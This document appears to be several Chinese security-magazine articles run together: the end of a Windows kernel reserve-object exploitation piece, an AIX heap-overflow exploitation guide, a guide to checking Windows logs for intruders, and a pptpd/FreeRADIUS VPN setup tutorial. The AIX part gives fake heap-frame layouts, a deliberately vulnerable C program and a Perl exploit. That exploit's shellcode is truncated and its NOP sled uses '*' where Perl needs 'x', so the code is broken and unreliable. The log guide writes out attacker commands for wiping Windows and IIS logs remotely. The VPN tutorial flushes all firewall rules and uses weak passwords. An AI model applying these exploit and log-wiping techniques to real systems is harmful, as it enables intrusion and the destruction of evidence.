粗略地说，你可以连续控制 4 个变量，每个变量一个机器字大小（x86 上 32 位，x86-64 上 64 位），因此可以在已知地址上插入 16 字节或 32 字节连续数据（取决于体系结构）。此外，因为你可以创建任意多个此类对象，就能构建由 16/32 字节代码块组成的长链，并用简单的 JMP（或其他）指令连接。整体思想如图 9 所示。


图 9

### 在 Windows x64 内核上的 DEP

本节讨论该思路中的一个重要问题：放在分配池中的代码是否能安全执行，即能否避开 DEP 保护等问题。微软一直在扩展和改进这些保护。正如 MSDN 所述，硬件实现的数据执行保护仅保护 1 个（32 位平台）或 3 个（64 位）不可执行的内核内存关键部分。

DEP 也应用于内核模式驱动。在内核模式下，内存区域的 DEP 不能选择性启用或禁用。在 32 位 Windows 中，DEP 默认用于栈；而在 64 位 Windows 内核模式中，栈、分页池和会话池都应用 DEP。

可以看到，所有栈和各种类型的内核池（除了非分页池）都有代码执行保护。让我们看一下与 UserApcReserve 和 IoCompletionReserve 对象有关的 OBJECT_TYPE 结构内容，如图 10 所示。幸运的是，所有对象都分配在非分页池中，这意味着你可以在自定义 KAPC 中执行代码而不会遇到真正困难。


图 10

### 堆 Heap spray 技术

如果你意识到储备对象实际上是受用户控制的小块内存（包括内容和虚拟地址），一系列可利用方法就会浮现。根据作者研究，用户模式进程可能部分控制内核池内存布局：通过恰当操作系统中的储备对象（比如分配并释放合适大小内存块）。由于任何进程都可以用 NtAllocateReserveObject + NtQueueApcThreadEx 对新的 KAPC 排队，并通过 SleepEx 释放（导致给定线程队列为空），你可以利用这一点影响其他不受控内核模块执行的内存分配。

事实上，Windows 7 引入了一些内部机制（如 Safe Pool Unlinking），旨在阻止黑客通过 Ring0 漏洞执行任意代码；由于这些机制高度依赖池分配地址的保密性，稳定控制内存池布局可能导致近期内核模式安全措施被破坏。

作者意识到该思路存在诸多障碍，例如固定内存分配大小（0x30-0x60 字节）、仅有一种池类型（非分页）可用等。就目前而言，这个主题仍留给有兴趣的人继续研究。总体上要记住：总有数不尽的方法可以绕过供应商不断引入的通用保护。游戏还没有结束！

## 结论

在本文中，作者试图呈现一种在近期 Windows 版本中引入的新的、有趣的机制；展示一些可行方法来对抗系统并帮助攻击者达成目标；并呈现 OS 开发者创造的新合法特性如何在可利用背景下被分析。由于旧思想和旧方法在系统内核已有其实现策略，就必须发展新的策略，而其中最好的原始资料之一，依我观点，就是本文描述的机制。

我相信，许多有趣且复杂的内核攻击可以借助储备对象这类功能来实施。因此，作者强烈鼓励每个对 Ring0 攻击感兴趣的人亲自研究这个主题，并以某种方式为相对狭窄的内核利用领域作出贡献。

前置知识：无

关键词：AIX、堆溢出、漏洞

# AIX 操作系统堆溢出漏洞利用


文/Tim Shelton　译/小小彬

自从 20 世纪 90 年代互联网和电子商务出现以来，社会的发展越来越依赖于计算机和网络系统。越来越多的黑客利用计算机系统暴露出来的漏洞实施攻击，这给计算机系统带来了极大的威胁。黑客窃取用户个人身份信息，使网络瘫痪，禁止在线交易，或清除个人或商业重要信息等。过去几年中，多家机构和企业受到黑客攻击影响……

随着可靠的基础设施服务支持及商业业务功能的日益增加，绝大多数企业依赖 AIX 操作系统工作。重要交易数据常保存在此系统中，因此 IBM AIX 系统成为攻击对象。企业需要将投资回报最大化，IT 基础设施不仅要灵活高性能，还要提供坚实可靠的安全性和可用性。

越来越多企业选择 Power Architecture 技术设计的 IBM AIX 操作系统。AIX 凭借扩展性、高级虚拟化技术、安全性、可管理性和可靠性，成为重要基础设施选择。通常企业关键应用和数据库（如 Oracle、IBM DB2 等）都部署其上。

本文主要关注 IBM AIX 操作系统堆管理接口滥用问题。文中引用了对 AIX 堆溢出利用的早期研究，讨论 free()/rightmost() 相关调用、堆污染触发条件及其对代码执行控制的影响，并给出了在内存中构造覆盖数据的方法。

研究指出：通过特定字节布局可以影响 free() 函数调用控制，并进一步尝试控制代码执行。虽然某些行为在正常情况下也可能出现，但在目标漏洞代码中使用时具有利用价值。

## 堆利用具体操作

- 在内存中为堆滥用伪造堆框架。
- 在内存污染期间覆盖初始 8 个字节，以达到以下目的：
  - 启动执行路径切换；
  - 前 4 个字节定位到伪造堆框架位置；
  - 后 4 个字节表示堆大小并与框架匹配。
- 伪框架共 16 个字节：
  - 第 1 个 4 字节：PowerPC 分支指令；
  - 第 2 个 4 字节：PowerPC 空操作指令；
  - 第 3 个 4 字节：指向将被覆盖值的指针；
  - 第 4 个 4 字节：堆大小，与溢出区堆大小匹配。
- 控制执行：
  - 劫持堆中保存的链寄存器；
  - 在应用程序导出表中寻找可调用函数；
  - 劫持存储在堆或栈中的函数指针。
- AIX 系统中的 MALLOCDEBUG/MALLOCTYPE 对堆污染利用有帮助。

## 早期堆利用技术

每个应用程序都存在两种方式管理数据存储。开发者可将变量定义在 CPU 管理的栈上，或由操作系统提供的堆管理器分配。堆栈污染已覆盖大多数操作系统和处理器类别。该类内存污染往往更偏向特定处理器，除非使用特定操作系统技术帮助减少滥用行为。

## 新技术：在堆管理范围内滥用阈值门槛口

尽管相关方法解决了某些问题，但也引出了另一个易被忽略的问题：leftmost 调用与 rightmost 调用之间的差异，以及在需要新堆栈段时触发调用的行为。

leftmost，然而当应用程序请求堆删除一个内存中以前分配的块时，就会调用 rightmost。

```text
(gdb) bt
#0 0xd011d5c8 in leftmost() from /usr/lib/libc.a(shr.o)
#1 0xd011fa58 in malloc_y() from /usr/lib/libc.a(shr.o)
#2 0xd011c44c in malloc_common@AF80_63() from /usr/lib/libc.a(shr.o)
#3 0xd011c1f4 in malloc() from /usr/lib/libc.a(shr.o)
```

用 8 字节的内存污染重定向堆框架后，我们可以再次利用 4 字节内存地址覆盖的方法来控制执行流……该漏洞可被 malloc_y 的后续功能检测出来。

所以关键问题在于，我们究竟在滥用什么样的特定值？堆框架大小是否重要？Litchfield 认为栈空间大小是任意的……真正起作用的是允许写操作指定值的位置。

注意：以下是我们的初始控制行为，其指向伪堆框架的起始位置。伪堆框架额外 4 个字节应指向标准化堆大小，且必须包含指向 ShellCode 的指针。

```text
(gdb) x/5i $pc
0xd011d5b4: stsw r5,r7,8
0xd011d5b8: lwz r5,2564(r4)
(gdb) i r5
r5 0x2ff22f50 804400976
(gdb) i r7
r7 0x2ff21cb4 804396212
```

下一个要求就是控制覆盖的位置。将位置指定在伪堆框架开始处，同时按 0xc（12）字节长度增加……我们需要定位栈上受保护的链寄存器并将地址减去 12 字节。

```text
0xd012926c: stw r7,2564(r4)
0xd0129270: addi r4,r4,2556
0xd0129274: li r3,1
0xd0129278: lsw r5,r7,8
0xd012927c: stswi r5,r4,8
0xd0129280: blr
0xd0129284: lwz r5,2564(r4)
0xd0129288: stw r6,0(r5)
```

如上所述，为了在返回 malloc_y 之前获得执行流，需要覆盖位于栈上受保护链寄存器的地址……我们应劫持栈上的 malloc_y 调用返回指针。

```text
(gdb) bt
#0: 0xd011d5c8 in leftmost() from /usr/lib/libc.a(shr.o)
#1: 0xd011fa58 in malloc_y() from /usr/lib/libc.a(shr.o)
#2: 0xd011c44c in malloc_common@AF80_63() from /usr/lib/libc.a(shr.o)
#3: 0xd011c1f4 in malloc() from /usr/lib/libc.a(shr.o)
```

## 小结

- 1. 在内存中为伪堆滥用创建伪堆框架。
- 2. 在内存污染初始覆盖头 8 个字节。  
  - 这将为劫持代码执行启动相应的方法；
  - 头 4 个字节——内存中伪堆框架的位置；
  - 尾 4 个字节——堆大小、shellcode 的位置。
- 3. 伪堆框架。
- 4. 劫持提示。  
  - 攻击堆上直接受保护的链寄存器。
- 5. 注意事项。  
  - 空字节；
  - PowerPC 指令缓存（I 指令缓存）。

```text
内存中伪框架实例
0xNNNNNNNN +0x00  Location of our shellcode in memory
0xNNNNNNNN +0x04  Pointer to our value to Overwrite (minus 12 bytes)
```

## 以下是源代码：

```c
<vulnerable application>
#include <stdio.h>
int foo(char *);
int main(int argc, char *argv[]) {
    foo(argv[1]);
    return 0;
}

int foo(char *arg) {
    char *ptr1=NULL, *ptr2=NULL, *ptr3=NULL;
    ptr1=(char *)malloc(20);
    strcpy(ptr1,arg);
    ptr2=(char *)malloc(0x1020);
    ptr3=(char *)malloc(0x1020);
    return 0;
}
```

## 漏洞利用实例

```perl
#!/usr/bin/perl
use strict;
my $app="./leftmost";
my $nop="\x60\x60\x60\x60" * 800;
my $SHELLCODE=
"\x7c\x08\x02\xa6\x94\x21\xff\xb0...";

# size — location of shellcode
my $size="\x2f\x12\xe2\xdc";
# location of our fake frame
my $r7="\x2f\x2a\x2f\x38";
my $overwrite_min_twelve="\x2f\x2a\x2c\xfc";
$ENV{B}="FF"; # r7+0 -> r6
$ENV{B}.=$overwrite_min_twelve;
$ENV{B}.=$size;
$ENV{B}.="\x30\x30\x30\x30";
```

前置知识：无  
关键词：Windows、事件查看


## 偷窥我们计算器机密，一个也跑不了

文/图 小侦探

你肯定不想让别人偷玩自己的计算机，一方面担心弄坏了，另一方面担心自己的私密资料泄露出去。除了同学、同事、朋友会偷玩你的计算机，黑客也可能会偷玩你的计算机。例如，当你上网时，黑客利用后门即可入侵你的计算机，窃取资料，监视你的一举一动。下面介绍怎样知道有人动过了你的计算机？

## 查看 Windows 日志

Windows 有日志功能，可以将你在系统中的一切操作，例如开、关机，执行应用程序，各种服务的启动、运行、关闭等都自动记录到日志中。因此你只要查看 Windows 日志即可掌握计算机的使用情况，了解别人是否动过你的计算机。Windows 日志主要有以下几种，如表 1 所示。

| 默认位置 | 文件 | 说明 |
|---|---|---|
| `%systemroot%\system32\config`（一般为 `%systemroot%`） | AppEvent.evt（应用程序日志）、SecEvent.evt（安全日志）、SysEvent.evt（系统日志） | 受“Event Log（事件记录）”服务保护，不能被删除，但可以被清空 |
| `%systemroot%` | schedlgu.txt（Scheduler 任务计划日志） | 记录计算机计划任务执行情况 |
| `%systemroot%` | pfirewall.log（Internet 连接防火墙 ICF 日志） | 记录防火墙相关连接与访问信息（源/目的地址、端口、时间、协议等） |

如果你的计算机上架设了 Web、FTP 服务器，还有以下日志文件，如表 2 所示。

| 日志名 | 默认位置 | 说明 |
|---|---|---|
| Internet 信息服务 FTP 日志 | `%systemroot%\system32\logfiles\msftpsvc\` | 包含大量 txt 格式日志（默认每天一个），记录 FTP 上传文件的来源、文件名等 |
| Internet 信息服务 WWW 日志 | `%systemroot%\system32\logfiles\w3svc1\` | 包含大量 txt 格式日志（默认每天一个），记录访问者 IP、访问时间及浏览网页等信息 |

- 1. 查计划任务日志得知开关机时间

双击系统安装盘（例如 C:），进入系统安装目录（如 Windows），用记事本打开计划任务日志 SchedLgU.txt。该文件记录了计算机计划任务执行情况和每次开关机信息，其中“任务计划程序服务”已启动时间可视为开机时间，“任务计划程序服务”已退出时间可视为关机时间。


图 1

- 2. 用事件查看器查看日志

事件查看器能查看系统日志、应用程序日志和安全日志。可在“我的电脑”→“管理”→“系统工具”下打开“事件查看器”；或按 Windows+R 输入 `eventvwr.msc` 打开。左侧单击“系统”，右侧窗口会显示发生过的系统事件。

每个事件都有发生日期和时间、来源、ID、用户等，假如某时间有一个事件，但此时你并未用过计算机，就说明别人动过你的计算机了！


图 2

事件查看器右边列出了很多事件，假如你不知道某事件是干什么的，可以双击该事件，然后在弹出的框里查看究竟是何种操作，或者你上网用事件的 ID 去搜一下也能知道其对应的操作，如图 3 所示。例如，ID 号为 6005 的事件表示事件日志服务已启动（即开机），ID 号为 6006 的事件表示关机，它们对应的时间就分别是开机时间和关机时间。由于窗口中事件太多，找起来麻烦，建议用“筛选”命令使内容简洁：在“查看”菜单下单击“筛选”命令，会弹出属性对话框，进入“筛选器”选项卡，在“事件类型”下将“信息”“警告”“错误”复选框都勾选，在“事件来源”下拉列表中选择“eventlog”，单击“确定”按钮，如图 4 所示。符合条件的系统事件就列出来了，然后你再根据 ID 即可轻松找到最近的开关机时间，回忆一下你何时用过计算机，就知道别人是否偷玩过你的计算机了。


图 3


图 4

在事件查看器中单击左侧的“安全性”，可查看安全性日志。系统登录、与资源使用相关的事件，如创建、打开或删除文件以及其他对象时，这里都会有记录。

## 3. 查看运行过什么程序

要查看曾经运行过什么程序，可以进入 `%systemroot%\Prefetch` 目录，这里面有很多 PF 文件。PF 文件名的最左部分是曾经运行过的程序名，后面是执行代码，例如 `AIIM.EXE-2800E571.pf`，就表示曾经运行过 AIIM.EXE 程序。目录中还显示了 `AIIM.EXE-2800E571.pf` 文件的修改日期，这就是 AIIM.EXE 的运行时间。因此通过查看 PF 文件名和修改日期，你就知道曾经运行过什么程序以及何时运行的，如图 5 所示。


图 5

## 4. 安全建议

通过查看安全日志、FTP 日志和 WWW 日志即可确定入侵者的 IP 地址以及入侵时间，不过所有 Windows 日志都是可以被黑客用 CL 工具彻底清除的。方法是先通过命令“net use \\ip\ipc$ 密码 /user:用户名”在本地和服务器上建立管理员权限的 IPC 管理连接，然后再用“CL -LogFile IP”命令远程清理服务器日志。此外黑客还能用 CleanIISLog 工具选择性地清理 IIS 日志，例如，用“CleanIISLog IIS 日志路径 IP 地址”命令来清除指定 IIS 路径的 IP 记录。因此在本地保存服务器日志非常不安全，安全起见建议打造专门的日志服务器。

为了防止日志文件被清空，建议你修改日志文件存放位置。单击“开始→运行”命令，在输入框中输入 Regedit，打开注册表，定位到 `HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Services/Eventlog` 下，里面有 Application、Security、System 几个子项分别对应应用程序日志、安全日志、系统日志。选中某子项（例如 Application），在右栏中找到 File 键，将键值改为新位置（例如 `F:\aqrz\AppEvent.Evt`），再新建 `F:\aqrz` 目录，将 AppEvent.Evt 复制到该目录下，重启后日志就会在新位置保存了。

## 查看最近打开过什么文档

首先单击“开始→文档”命令，在弹出的列表中查看最近打开过什么文档，例如 txt、doc、xls 文件、电影、图片等，只要打开过就会显示出来，如图 6 所示。

接下来进入 `C:\Documents and Settings\用户名\Recent` 目录，查看最近打开过什么文档和目录，这里面全是访问过的文档和目录的快捷方式，每个快捷方式都有名称和修改日期，前者是曾打开过的文档和目录名，后者是访问时间，如图 7 所示。如果某时刻你从未打开过某文档，该文档就是被别人偷看过了。

由于很多工具都能清除历史信息，因此这种方式经常不准确。请单击“检查硬盘”，选择“所有磁盘”进行深层检测，此时 ViewURL 通过检测磁盘中的每一个簇读出其中的网页和文件数据。搜索完毕，在 File 选项卡中即可看到所有访问过的文档，一个都不会漏掉！


图 6

## 查看上网记录

首先进入 `C:\Documents and Settings\用户名\Local Settings`，分别查看 History 和 Temporary Internet Files 目录。前者是你上网浏览的历史记录（可记录 99 天），后者存放着 IE 浏览过的所有网页及网页上的文件，查看这两个地方就初步知道你上网干了什么，如图 8 所示。


图 7


图 8

最后建议你用 ViewURL（http://xiazai.zol.com.cn/soft/382684_1.html）彻底检查访问过哪些文档。启动 ViewURL，单击“显示信息”，软件就会从系统历史记录和缓存文件中快速读取访问记录，在 File 选项卡中能看到访问过哪些文档，文档名都以“<用户名>@file:///”开头。由于很多工具（例如卡卡助手等）都能清除历史信息，因此这种方式经常不准确。

接下来再用 ViewURL 仔细查看上网记录。ViewURL 是一款性能超群的上网痕迹检查工具，即使硬盘被格式化了，依然可用它找出上网痕迹。单击软件界面上的“检查硬盘”，选择“所有磁盘”进行深层检测，检测完毕，在 Others 选项卡中就能看到所有上网记录。例如，曾浏览了哪些网页，是哪个 Windows 用户访问的，产生了哪些 Cookie 等。

前置知识：无

关键词：VPN、FreeRADIUS

# 免费打造动态口令 VPN 系统

文/图 xysky


## 事情起因

很多企业为了方便异地或在家办公的员工，会将一些内部系统部署在外网服务器上。殊不知这些系统很容易成为黑客入侵的切入点，主要有以下原因：

- 内部系统在开发、发布的过程中，相对会有较少的安全措施，甚至会存在 admin 和 123456 这种用户密码；
- 为了方便工作，很多人会用同一个密码登录各个系统，比如邮件系统、RTX、OA，甚至有些人直接使用银行卡密码、信用卡密码；
- 时下流行的所谓“撞库”技术，可以很容易地得到一个人的常用密码，加之配合社会工程学，就更加具有杀伤力。

很多有点资历的朋友会跳出来说，可以进行安全编码规范与培训、员工安全意识培训，甚至会搬出“三分技术、七分管理”之类的说法。当然，我并不是反对这些东西，有这些想法是好事，但真正做事的时候，还是要务实一些。也许你会发现，要求修补某系统漏洞，而有些系统早已经没有开发人员维护了；要求加强口令安全，会发现原来的数据库明文保存密码变成了 base64 编码；而且最为关键的是许多企业都是真正发生了安全事件才会对安全稍微重视起来。

既然发生了安全事件，单纯靠开发修改代码、加强用户安全意识还不够，必须从技术手段上进行一定的限制。和朋友商量后，决定在网络上对这些系统做一些访问上的限制，在外网部署 VPN，内部系统只允许在办公网或者通过登录 VPN 才能访问，这样将原本对互联网开放的服务，限制在我们可控的范围内。另外，VPN 要求一定要方便使用，当然也要考虑 VPN 本身的安全性。

## 方案分析

在开始讨论一些可选方案之前，先简单介绍一些相关的基础知识，请高手略过。

### 1. VPN 基础知识

VPN 的英文全称是“Virtual Private Network”，翻译过来就是“虚拟专用网络”。顾名思义，虚拟专用网络可以把它理解成虚拟出来的企业内部专线。虚拟专用网络（VPN）被定义为通过一个公用网络（通常是因特网）建立一个临时的、安全的连接，是一条穿过混乱的公用网络的安全、稳定的隧道。虚拟专用网是对企业内部网的扩展。虚拟专用网可以帮助远程用户、公司分支机构、商业伙伴及供应商同公司的内部网建立可信的安全连接，并保证数据的安全传输。

- 按 VPN 的协议分类：  
  - PPTP、L2TP、IPSec（三种常见隧道协议）  
  - PPTP 和 L2TP 工作在 OSI 第二层（二层隧道）  
  - IPSec 常见于第三层隧道
- 按 VPN 的应用分类：  
  - 远程访问 VPN（Access VPN）  
  - 企业内部 VPN（Intranet VPN）  
  - 企业扩展 VPN（Extranet VPN）

### 2. 方案选择

在实际应用场景中，我们的用户可能在家办公，也可能在外出差，所以应该使用 Access VPN；员工所用系统绝大部分是 Windows，其本身支持 VPN，使用 PPTP/L2TP 等无需在 Windows 下安装客户端，大规模部署也非常方便。但是，PPTP 使用单因素认证，即客户端只需要一个用户名与密码即可。

微软的实现依赖于使用 MS-CHAP V2 协议进行认证、使用 MPPE 进行加密，而 MPPE 使用 128 位 RC4 算法生成密钥，存在被暴力破解的可能。所以为了提高其安全性，我们让 VPN 具有动态口令功能，即用户的密码是动态变化的，可以做到登录一次变一次，亦可做到每隔多久变化一次等。

- 1. 花钱购买 VPN 设备以及口令卡，方案省事，但成本较高，还涉及客户端、口令卡管理与回收问题。
- 2. 修改 VPN 服务器代码（如本文使用的 pptpd），在用户请求 VPN 登录时于内存中生成动态验证码并发送短信、定时变更等；软件单一，但可操作性不强。
- 3. 结合 RADIUS、MySQL 进行认证，将密码存入数据库，通过改库实现动态口令。
- 4. 自己写一个 PAM 模块，生成并发送动态口令，然后 VPN 使用 PAM 认证。

综合考虑诸多因素，本文最后使用了方案三，即利用 pptpd 搭建 VPN 服务器，然后 pptpd 使用 FreeRADIUS+MySQL 数据库进行认证，再修改 FreeRADIUS 源代码实现动态口令功能，并已测试通过并投入使用。下面简单介绍一下 FreeRADIUS。

### 3. FreeRADIUS 简介

FreeRADIUS 是一套开源并且完全兼容 RADIUS 协议的服务器/客户端软件，可以用于用户接入和访问特定网络的认证、授权、计费功能。它支持多种验证方式，包括文件、LDAP 以及主流支持 SQL 的数据库（ORACLE、MySQL、DB2 等）。

RADIUS 的基本工作原理如下：用户接入 NAS（网络接入服务器，作为 RADIUS 客户端），NAS 向 RADIUS 服务器使用 Access-Request 数据包提交用户信息（包括用户名、密码等）；RADIUS 服务器对用户名和密码合法性进行检验，必要时可提出 Challenge；合法则返回 Access-Accept，否则返回 Access-Reject。若允许访问，NAS 再向 RADIUS 服务器提出计费请求 Account-Request，RADIUS 响应 Account-Accept，用户开始计费并进行相关操作。

更多关于 FreeRADIUS 的信息，请参考官方网站：http://www.freeradius.org。

## 方案实施

### 1. 环境准备

VPN 服务器环境：Red Hat Enterprise Linux Server release 5.5（32 位）。使用 wget 下载 pptpd、ppp、freeradius-server、freeradius-client 等软件包并存放于 `/usr/local/src` 目录下，推荐下载地址：  
http://sourceforge.net/projects/poptop/files/pptpd/pptpd-1.3.4/pptpd-1.3.4.tar.gz/download

- ftp://ftp.freeradius.org/pub/freeradius/freeradius-server-2.1.0.tar.gz
- ftp://ftp.samba.org/pub/ppp/ppp-2.4.5.tar.gz
- ftp://ftp.freeradius.org/pub/freeradius/freeradius-client-1.1.6.tar.bz2

为了省事，MySQL 相应的软件包直接用 apt-get 安装了（也可用 yum）。

```bash
apt-get install mysql-devel
apt-get install mysql-server
service mysqld start
```

另外，为了避免因为防火墙导致测试过程中的问题，我们把防火墙规则先清空了：

```bash
iptables -F
```

### 2. 安装 VPN 服务端（pptpd）

```bash
cd /usr/local/src
tar zxvf pptpd-1.3.4.tar.gz
cd pptpd-1.3.4
./configure
make && make install

# /usr/local/src/pptpd-1.3.4/samples 下有配置样例
ls
chap-secrets  options.pptpd  pptpd.conf
```

这是配置 pptpd 最为关键的三个配置文件，我们将它们复制到正确的地方，进行简单修改即可。

```bash
cp /usr/local/src/pptpd-1.3.4/samples/pptpd.conf /etc/pptpd.conf
cp /usr/local/src/pptpd-1.3.4/samples/options.pptpd /etc/ppp/options.pptpd
cp /usr/local/src/pptpd-1.3.4/samples/chap-secrets /etc/ppp/chap-secrets
```

本文中的配置示例如下（为节省篇幅，注释以及空白行都不显示）：`/etc/pptpd.conf` 内容如下：

```conf
ppp /usr/sbin/pppd
option /etc/ppp/options.pptpd
debug
stimeout 30
noipx
connections 200
localip 172.16.10.1
```

`/etc/ppp/options.pptpd` 内容如下：

```conf
name xyskvpn
refuse-pap
refuse-chap
refuse-mschap
require-mschap-v2
require-mppe-128
ms-dns 202.96.128.86
ms-dns 202.96.134.133
proxyarp
debug
lock
nobsdcomp
novj
novjccomp
nologfd
```

`/etc/ppp/chap-secrets` 内容如下：

```conf
test1 xyskvpn "123456" 172.16.10.111
```

注意，chap-secrets 存放 client、server、secret、IP addresses 等信息，其中 server 的字符串要与 options.pptpd 文件里的 name 字符串一致。

简单配置之后，`/usr/local/sbin/pptpd` 执行即可启动 VPN 服务端。客户端连接后可在服务器 `tail -f /var/log/messages` 看到相关日志：

```log
Oct 4 20:27:42 testvpn pptpd[6351]: CTRL: Client 192.168.14.161 control connection started
Oct 4 20:27:42 testvpn pppd[6352]: pppd 2.4.4 started by root
Oct 4 20:27:42 testvpn pppd[6352]: Using interface ppp0
Oct 4 20:27:44 testvpn pppd[6352]: local IP address 172.16.10.1
Oct 4 20:27:44 testvpn pppd[6352]: remote IP address 172.16.10.111
```

看到上面的信息，表明成功了。为了连接其他机器，还需开启 NAT 功能，关键命令如下：

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
/sbin/iptables -t nat -A POSTROUTING -j MASQUERADE
```

成功登录之后，可以用 tracert 测试。图 1 和图 2 分别为连上 VPN 服务器之前和之后的 tracert 信息。


### 3. 安装 FreeRADIUS 服务端

```bash
cd /usr/local/src
tar zxvf freeradius-server-2.1.9.tar.gz
cd freeradius-server-2.1.9
./configure --with-udpfromto
make && make install
```

安装之后，我们修改配置文件，添加一个用户，编辑 `/usr/local/etc/raddb/users` 文件，将示例中 `steve` 用户的注释去掉，如下所示：

```conf
steve    Cleartext-Password := "testing"
        Service-Type = Framed-User,
        Framed-Protocol = PPP,
        Framed-IP-Address = 172.16.3.33,
        Framed-IP-Netmask = 255.255.255.0,
        Framed-Routing = Broadcast-Listen,
        Framed-Filter-Id = "std.ppp",
        Framed-MTU = 1500,
        Framed-Compression = Van-Jacobson-TCP-IP
```

然后，我们运行 `radiusd -X`，在测试期间使用 `-X` 选项输出 debug 信息。第一次运行需要等待一些时间，之后再次运行即可看到清晰日志。如果看到如下信息：

```text
Listening on authentication address * port 1812
Listening on accounting address * port 1813
Listening on command file /usr/local/var/run/radiusd/radiusd.sock
Listening on proxy address * port 1814
Ready to process requests.
```

表明 `radiusd` 服务端已经正常运行，正等待用户请求。此时再开一个终端，用 `radtest` 测试：

```bash
[root@testvpn raddb]# radtest steve testing 127.0.0.1 0 testing123
Sending Access-Request of id 217 to 127.0.0.1 port 1812
User-Name = "steve"
User-Password = "testing"
...
rad_recv Access-Accept packet from host 127.0.0.1 port 1812
Service-Type = Framed-User
Framed-Protocol = PPP
Framed-IP-Address = 172.16.3.33
Framed-IP-Netmask = 255.255.255.0
Framed-Routing = Broadcast-Listen
Filter-Id = "std.ppp"
Framed-MTU = 1500
Framed-Compression = Van-Jacobson-TCP-IP
```

`Access-Accept` 表明验证成功，后面的 `testing123` 是默认密钥（在 `clients.conf` 中）。输入错误密钥看效果：

```bash
[root@testvpn raddb]# radtest steve testing 127.0.0.1 0 xyskytest
Sending Access-Request ...
rad_recv Access-Reject packet from host 127.0.0.1 port 1812
id=136, length=20
```

`Access-Reject` 表示拒绝请求。实际操作中如遇此类错误，可查看 `radiusd -X` 输出的 debug 信息快速定位问题。

### 4. 集成 FreeRADIUS 与 MySQL

前面成功配置了 FreeRADIUS，接下来改用 MySQL 进行验证。首先建库并创建相应表格：

```bash
mysqladmin -u root create radius
mysql -u root radius < /usr/local/etc/raddb/sql/mysql/schema.sql
mysql -u root radius < /usr/local/etc/raddb/sql/mysql/nas.sql
mysql -u root radius < /usr/local/etc/raddb/sql/mysql/ippool.sql
mysql -u root radius < /usr/local/etc/raddb/sql/mysql/wimax.sql
```

赋予本地 mysql 用户 radius 一定权限：

```sql
mysql -u root
mysql> GRANT SELECT ON radius.* TO radius@localhost IDENTIFIED BY 'radpass';
mysql> GRANT ALL ON radius.radacct TO radius@localhost;
mysql> GRANT ALL ON radius.radpostauth TO radius@localhost;
```

往数据库插入一些信息以便测试：

```sql
use radius;
```

加入一些组信息：

```sql
mysql> insert into radgroupreply (groupname,attribute,op,value) values ('user','Auth-Type',':=','Local');
mysql> insert into radgroupreply (groupname,attribute,op,value) values ('user','Service-Type',':=','Framed-User');
mysql> insert into radgroupreply (groupname,attribute,op,value) values ('user','Framed-IP-Netmask',':=','255.255.255.255');
mysql> insert into radgroupreply (groupname,attribute,op,value) values ('user','Framed-IP-Netmask',':=','255.255.255.0');
```

加入用户信息：

```sql
mysql> INSERT INTO radcheck (UserName, Attribute, Value) VALUES ('xysky', 'Password', '123456');
```

把用户加到组里：

```sql
mysql> insert into radusergroup(username,groupname) values('xysky','user');
```

给测试用户分配 IP 地址：

```sql
INSERT INTO radreply (id, UserName, Attribute, op, Value) VALUES (1, 'xysky', 'Framed-IP-Address', ':=', '172.16.10.11');
```

查询一下，确认记录是否正确：

```sql
mysql> select * from radcheck where UserName='xysky';
mysql> select * from radgroupreply;
```

建好数据库后，修改 FreeRADIUS 相关配置，使 FreeRADIUS 使用 MySQL 进行验证。

```bash
vi /usr/local/etc/raddb/radiusd.conf
```

去掉 683 行 `$INCLUDE sql.conf` 前注释；编辑 `/usr/local/etc/raddb/sql.conf` 填写 MySQL 用户名和密码；编辑 `sites-enabled/default` 与 `sites-enabled/inner-tunnel` 中 `files` 和 `sql` 相关行注释；最后恢复 `users` 文件中 `steve` 用户注释状态并重启 FreeRADIUS，再次用 `radtest` 测试。

```bash
[root@testvpn raddb]# radtest xysky 123456 localhost 1812 testing123
Sending Access-Request ...
User-Name = "xysky"
User-Password = "123456"
...
rad_recv Access-Accept packet from host 127.0.0.1 port 1812
Service-Type = Framed-User
Framed-IP-Netmask = 255.255.255.0
```

又看到熟悉的 Access-Accept 字样，表明 FreeRADIUS 与 MySQL 集成成功了！细心的读者可能会发现 `radiusd -X` 输出的信息怎么是 PAP，连密码也显示出来了，如下：

```text
Found Auth-Type = PAP
...
[pap] login attempt with password "123456"
[pap] Using clear text password "123456"
[pap] User authenticated successfully.
```

没关系，Windows 连上来的时候，使用的是 mschap 模块进行验证的，我们修改一下配置文件，启用 mschap 模块。

```bash
vi /usr/local/etc/raddb/modules/mschap
mschap {
  use_mppe = yes
  require_encryption = yes
  require_strong = yes
}
```

### 5. 集成 pptpd 与 FreeRADIUS

经过前面的步骤，我们已经能连上 VPN 了，而且 RADIUS 验证与 MySQL 已经集成了。现在需要让 pptpd 将认证过程交由 RADIUS 处理，不再通过读取 `/etc/ppp/chap-secrets` 文件方式进行。这中间得借助于 NAS，即 radiusclient。

安装 radiusclient，主要是使用其中一些库文件，以便用它来给 FreeRADIUS 服务端发认证请求：

```bash
cd /usr/local/src
tar xjvf freeradius-client-1.1.6.tar.bz2
cd freeradius-client-1.1.6
./configure
make && make install
```

然后复制 ppp 源码里的一些关于 RADIUS 的配置文件：

```bash
cd /usr/local/src
tar xzvf ppp-2.4.5.tar.gz
cd ppp-2.4.5
cp -R ./pppd/plugins/radius/etc /etc/radiusclient/
```

修改 pptpd 的配置文件，在其 plugin 处使用 RADIUS 相关模块，这样即可让 pptpd 使用 radiusclient 进行请求，即 `vi /etc/ppp/options.pptpd`，在最后的 `put plugins here` 后面加上下面几句话（不包括注释的）：

```conf
# put plugins here
logfile /var/log/pptpd.log
plugin radius.so
plugin radattr.so
radius-config-file /etc/radiusclient/radiusclient.conf
```

编辑 radiusclient 的配置文件，使其连接到 FreeRADIUS 服务端。注意要保证 FreeRADIUS 与 radiusclient 两边的密钥是一样的，密钥分别写在 `/usr/local/etc/raddb/clients.conf` 与 `/etc/radiusclient/servers` 这两个文件里。

编辑 `/usr/local/etc/radiusclient/servers`，编辑后内容如下：

```conf
localhost localhost    testing123
```

编辑 `/etc/radiusclient/servers`，编辑后内容如下：

```conf
localhost testing123
```

注意上面两个配置文件，`testing123` 为 RADIUS 客户端与服务端共享的密钥。

编辑 `/etc/radiusclient/radiusclient.conf`，编辑后内容如下：

```conf
auth_order radius
login_tries 4
login_timeout 60
nologin /etc/nologin
issue /etc/radiusclient/issue
authserver localhost:1812
acctserver localhost:1813
servers /etc/radiusclient/servers
dictionary /etc/radiusclient/dictionary
login_radius /usr/local/sbin/login.radius
seqfile /var/run/radius.seq
